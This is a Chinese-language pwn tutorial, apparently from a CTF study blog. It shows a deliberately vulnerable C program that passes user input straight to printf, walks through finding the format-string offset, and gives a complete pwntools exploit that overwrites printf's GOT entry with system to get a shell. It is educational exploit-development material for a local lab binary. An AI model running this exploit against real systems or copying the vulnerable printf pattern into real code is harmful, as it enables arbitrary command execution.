 ```yaml
---
title: '利用 GOT Overwrite'
date: '2023-08-28'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '使用格式化字符串漏洞覆盖 GOT 表 get shell'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

<Download name="got-overwrite-32.zip" href="/static/assets/got-overwrite-32.zip" type="Binary" />

这可能是 GOT Overwrite 题中最简单的一个了。

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[300];

  while(1) {
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    puts("");
  }
}

int main() {
  vuln();

  return 0;
}
```

一个简单的无限循环接收用户的输入，并用 `printf` 将其输出。这里不存在缓冲区溢出，只有格式化字符串漏洞。

现在假设关闭了 ASLR，可以先自己试一试利用 GOT Overwrite 漏洞进行覆写 :)

## 0x02 漏洞利用

先设置好基本框架。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()
```

为了利用 `%n` 覆盖 GOT 表，我们需要找到格式化字符串读取到我们输入的缓冲区开始的偏移量。

```
$ ./got_overwrite-32
%p %p %p %p %p %p
0x12c 0xf7e445c0 0x8049191 0x40 0x25207025 0x70252070
```

可以确定是第五个位置。接下来获取该位置的地址：

```
$ ./got_overwrite-32
%5$p
0x70243525
```

完善 exp。

```python showLineNumbers
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

这样就覆写成功了。如果缓冲区受到限制，你可以发送 `/bin/sh` 获得 shell 并运行更多命令。

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

## 0x03 64-bit

老样子 :)

<Download name="got-overwrite-aslr.zip" href="/static/assets/got-overwrite-aslr.zip" type="Binary" />
## 0x04 ASLR 版本

如果你想要额外的挑战，这里请启用 ASLR 并尝试解下面的题目。

<Download name="got-overwrite-aslr.zip" href="/static/assets/got-overwrite-aslr.zip" type="Binary" />


